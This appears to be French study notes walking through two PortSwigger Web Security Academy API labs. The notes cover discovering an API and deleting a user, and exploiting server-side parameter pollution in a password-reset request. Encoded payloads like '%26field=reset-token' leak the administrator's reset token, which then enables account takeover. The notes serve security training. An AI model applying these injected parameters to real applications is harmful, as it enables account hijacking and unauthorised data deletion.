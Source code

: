 En utilisant la fonctionnalité de changement d'adresse, on voit qu'elle fait une requête vers un endpoint : 

>PATCH /api/user/wiener HTTP/2

Requêtes à faire pour explorer la documentation de l'API puis supprimer Carlos : 

>GET /api/ HTTP/2
>DELETE /api/user/carlos HTTP/2

### Exploiting server-side parameter pollution in a query string

La requête de réinitialisation du mot de passe effectue une requête POST avec un paramètre "**username**" et est associée à une requête GET sur un fichier Javascript : 

>POST /forgot-password HTTP/2
>...
>csrf=lxuaYEvzuwJoqruzETFb3N3DYXE6Fk5c&username=administrator
>...
>GET /static/js/forgotPassword.js

En essayant de polluer ce paramètre, on obtient quelques résultats intéressants : 

**&username=administrator&aaa=bbb** => Réponse classique
**&username=administrator%26aaa=bbb** => "Parameter is not supported."
**&username=administrator%23** => "Field not specified."
**&username=administrator%26field=abc** => "Invalid field."

En fuzzant ce paramètre sur Intruder (Add from list -> Server-side variable names), on trouve une seule réponse valide pour "**email**"

Le payload **&username=administrator%26field=email** renvoie la même réponse classique qui nous résume les valeurs entrées.

En fouillant le fichier **forgotPassword.js** on remarque une variable **${resetToken}** : 

    [...]
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    [...]

En remplaçant "email" par "reset-token" on obtient ce qui ressemble à un token : 

**&username=administrator%26field=reset-token**

>{"type":"reset_token","result":"uw04lq6pgerbhol1plbqzll893oo9s3m"}

Il n'y a plus qu'à utiliser ce token dans la requête de changement de mot de passe : 

https://0a85004a04a9c13786ea18cf00760090.web-security-academy.net/forgot-password?reset_token=uw04lq6pgerbhol1plbqzll893oo9s3m

Attention à bien encoder les caractères de type '&', '#', etc.

